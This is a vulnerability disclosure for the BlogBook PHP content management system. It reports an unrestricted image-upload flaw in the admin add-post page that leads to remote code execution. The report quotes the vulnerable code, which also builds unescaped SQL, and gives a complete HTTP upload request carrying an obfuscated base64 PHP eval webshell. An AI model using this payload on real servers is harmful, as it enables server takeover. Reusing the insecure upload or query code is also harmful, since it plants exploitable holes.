

# BlogBook /admin/posts.php add_post post_image Parameter Unrestricted Upload

**Exploit Title: BlogBook /admin/posts.php add_post post_image Unrestricted Upload**

**Vendor Homepage: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software Link: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software: blogbook**

**Tested on: Windows,PHP 5.6.9 ,Apache 2.4.39 ,MySQL 8.0.12**

## Vulnerability Overview

The BlogBook application is vulnerable to unrestricted file upload in its post creation feature. The image parameter, intended for uploading post images, does not perform adequate validation or filtering on the type or extension of the uploaded file. An authenticated attacker with privileges to create posts (e.g., an administrator or author) can exploit this vulnerability by uploading a file with a malicious extension (e.g., .php, .phtml) containing server-side code.

The uploaded malicious file is moved to a web-accessible directory (../images/) using its original filename. The attacker can then directly access this uploaded file via its URL, triggering the execution of the embedded server-side code. This leads to Remote Code Execution (RCE) on the server, granting the attacker full control over the web server process, and potentially the underlying system depending on server configuration and permissions.

The vulnerability was confirmed by successfully uploading a PHP webshell via the "add post" functionality and subsequently connecting to it using AntSword, demonstrating arbitrary command execution capabilities.

## Vulnerability Point

`blogbook-main/admin/includes/add_post.php:16`

## Vulnerable Parameter

`post_image`

## Vulnerable Code

```php
if (isset($_POST['create_post'])) {

    $post_content = mysqli_real_escape_string($connection, $_POST['post_content']);
    $post_author = $_SESSION['username'];
    $post_title = $_POST['post_title'];
    $post_category_id = $_POST['post_category'];
    $post_image = $_FILES['image']['name'];
    $post_image_temp = $_FILES['image']['tmp_name'];
    $post_tags = $_POST['post_tags'];
    $post_comment_count = 0;
    $post_date = date('d-m-y');
    $post_status = $_POST['post_status'];
    $author_id = $_SESSION['user_id'];
    move_uploaded_file($post_image_temp, "../images/$post_image");

    $query = "INSERT INTO posts(post_category_id,post_title,post_author,author_id,post_date,post_image,post_content,post_tags,post_status) VALUES({$post_category_id},'{$post_title}','{$post_author}','{$author_id}',now(),'{$post_image}','{$post_content}','{$post_tags}','{$post_status}')";
    $add = mysqli_query($connection, $query);


    confirm($add);
    $view_post_id = mysqli_insert_id($connection);
    echo "<p class='bg-success'>Post Created..<a href='../post.php?p_id={$view_post_id}'>View Post</a> or<a href='posts.php?source=add_post'>Edit More Posts</a></p>";
}
```
## Payload

```
POST /admin/posts.php?source=add_post HTTP/1.1
Host: localhost
Content-Length: 936
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="136", "Microsoft Edge";v="136", "Not.A/Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryyzhEMIGjwHEoHbfK
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36 Edg/136.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/admin/posts.php?source=add_post
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=m31f0c6i8bn1rg0ouck5khsgp4
Connection: close

------WebKitFormBoundaryyzhEMIGjwHEoHbfK
Content-Disposition: form-data; name="post_title"


------WebKitFormBoundaryyzhEMIGjwHEoHbfK
Content-Disposition: form-data; name="post_category"

6
------WebKitFormBoundaryyzhEMIGjwHEoHbfK
Content-Disposition: form-data; name="post_status"

draft
------WebKitFormBoundaryyzhEMIGjwHEoHbfK
Content-Disposition: form-data; name="image"; filename="php_create_function_script.php"
Content-Type: application/octet-stream

<?php 
*  pwd = ant
*/
$ant=create_function("", base64_decode('QGV2YWwoJF9QT1NUWyJhbnQiXSk7'));
$ant();
?>
------WebKitFormBoundaryyzhEMIGjwHEoHbfK
Content-Disposition: form-data; name="post_tags"


------WebKitFormBoundaryyzhEMIGjwHEoHbfK
Content-Disposition: form-data; name="post_content"


------WebKitFormBoundaryyzhEMIGjwHEoHbfK
Content-Disposition: form-data; name="create_post"

Publish Post
------WebKitFormBoundaryyzhEMIGjwHEoHbfK--

```



